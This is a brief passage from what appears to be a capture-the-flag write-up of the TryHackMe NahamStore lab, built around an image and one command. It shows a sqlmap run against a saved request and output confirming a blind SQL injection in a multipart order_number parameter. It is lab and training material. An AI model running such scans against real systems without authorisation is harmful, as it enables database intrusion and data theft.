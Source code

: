 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a66.png)

- Run `sqlmap` with `-r` option:

**Confirming it's vulnerable to blind SQL injection:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# sqlmap -r req.txt
[...]
[05:46:50] [INFO] (custom) POST parameter 'MULTIPART order_number' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[...]
```
